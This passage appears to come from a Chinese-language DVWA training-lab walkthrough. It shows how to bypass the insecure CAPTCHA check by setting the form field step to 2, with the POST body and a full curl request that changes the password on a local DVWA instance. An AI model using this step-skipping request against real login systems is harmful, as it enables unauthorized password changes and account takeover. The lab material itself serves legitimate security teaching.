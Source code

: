 ![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2059.png)

試著將 step 改成 2 ，然後填入新密碼再送出

```
step=2&password_new=222&password_conf=222&Change=Change
```

```bash
curl 'http://dvwa.localtest:8086/vulnerabilities/captcha/#' -X POST -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: zh-TW,zh;q=0.8,en;q=0.5,en-US;q=0.3' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://dvwa.localtest:8086/vulnerabilities/captcha/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://dvwa.localtest:8086' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=ov64qqshkod7693old2kdk59e3; security=low' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'step=2&password_new=222&password_conf=222&Change=Change'
```
